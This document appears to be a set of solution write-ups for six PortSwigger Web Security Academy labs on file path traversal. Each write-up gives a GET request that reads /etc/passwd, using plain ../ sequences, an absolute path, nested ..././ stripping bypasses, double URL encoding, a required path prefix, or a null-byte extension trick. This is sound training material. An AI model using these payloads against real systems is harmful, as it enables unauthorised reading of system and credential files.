01 File path traversal, simple case
===================================

This lab contains a file path traversal vulnerability in the display of product
images.

To solve the lab, retrieve the contents of the /etc/passwd file.

References:

-   https://portswigger.net/web-security/file-path-traversal



To retrieve an image the application uses a GET request with the parameter
filename:



To retrieve /etc/passwd:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /image?filename=../../../etc/passwd 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



02 File path traversal, traversal sequences blocked with absolute path bypass
=============================================================================

This lab contains a file path traversal vulnerability in the display of product
images.

The application blocks traversal sequences but treats the supplied filename as
being relative to a default working directory.

To solve the lab, retrieve the contents of the /etc/passwd file.

References:

-   https://portswigger.net/web-security/file-path-traversal



To retrieve an image the application uses a GET request with the parameter
filename:



To retrieve /etc/passwd:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /image?filename=/etc/passwd 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



03 - File path traversal, traversal sequences stripped non-recursively
======================================================================

This lab contains a file path traversal vulnerability in the display of product
images.

The application strips path traversal sequences from the user-supplied filename
before using it.

To solve the lab, retrieve the contents of the /etc/passwd file.

References:

-   https://portswigger.net/kb/issues/00100300_file-path-traversal

-   https://portswigger.net/web-security/file-path-traversal

Generated link:
https://0a2a0030049b8f43822a9e64007d00ba.web-security-academy.net/

When accessing Home or a post we have GET requests like this one:





~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /image?filename=..././..././..././..././..././etc/passwd HTTP/2
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



04 File path traversal, traversal sequences stripped with superfluous URL-decode
================================================================================

This lab contains a file path traversal vulnerability in the display of product
images.

The application blocks input containing path traversal sequences. It then
performs a URL-decode of the input before using it.

To solve the lab, retrieve the contents of the /etc/passwd file.

References:

-   https://portswigger.net/web-security/file-path-traversal



To retrieve an image the application uses a GET request with the parameter
filename:



To retrieve /etc/passwd we need to use double URL encode the characters:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



05 File path traversal, validation of start of path
===================================================

This lab contains a file path traversal vulnerability in the display of product
images.

The application transmits the full file path via a request parameter, and
validates that the supplied path starts with the expected folder.

To solve the lab, retrieve the contents of the /etc/passwd file.

References:

-   https://portswigger.net/web-security/file-path-traversal



To retrieve an image the application uses a GET request with the parameter
filename and the full path:



To retrieve /etc/passwd we need the path to start with “/var/www/images/”:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /image?filename=/var/www/images/../../../etc/passwd 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



06 File path traversal, validation of file extension with null byte bypass
==========================================================================

This lab contains a file path traversal vulnerability in the display of product
images.

The application validates that the supplied filename ends with the expected file
extension.

To solve the lab, retrieve the contents of the /etc/passwd file.

References:

-   https://portswigger.net/web-security/file-path-traversal



To retrieve an image the application uses a GET request with the parameter
filename:



To retrieve /etc/passwd we need to use the null byte:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /image?filename=../../../etc/passwd%00.png
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


